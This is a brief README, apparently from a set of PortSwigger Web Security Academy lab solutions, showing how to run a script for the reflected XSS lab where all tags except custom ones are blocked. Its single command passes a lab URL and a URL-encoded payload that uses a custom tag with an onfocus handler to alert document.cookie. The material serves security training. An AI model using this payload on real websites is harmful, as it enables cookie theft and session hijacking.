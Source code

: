 # How to run script.py

### Reflected XSS into HTML context with all tags blocked except custom ones

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x"`

